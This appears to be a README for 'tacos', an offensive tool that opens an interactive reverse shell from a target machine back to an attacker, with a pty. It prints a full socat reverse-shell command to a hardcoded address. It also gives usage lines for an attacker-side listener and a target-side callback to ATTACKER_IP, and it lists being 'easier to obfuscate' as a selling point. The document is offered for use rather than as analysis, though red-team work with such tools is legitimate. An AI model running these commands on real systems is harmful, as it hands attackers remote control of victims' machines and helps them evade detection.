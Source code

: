 # tacos
<sup>(reverse `socat`)</sup>

Spawn a pty in your reverse shell to automaticcaly make it interactive.

Equivalent of:
```shell
socat exec:'bash -il',pty,stderr,setsid,sigint,sane OPENSSL:10.0.2.15:443,verify=0
```
**Why ?**
* too lazy to copy/paste/learn socat command
* provide more advanced configuration to the tty (alias, etc)
* easier to obfuscate
* cross-platform (to do) 


## Usage

`tacos` is built to work with the simple and dramatically effective project [`pty4all`](https://github.com/laluka/pty4all):
```shell
# On attacker machine
./socat-multi-handler.sh --lhost [ATTACKER_IP] --lport 443 --webport 80

# On target (transfer tacos as you wish)
./tacos [ATTACKER_IP]
# 💥
```
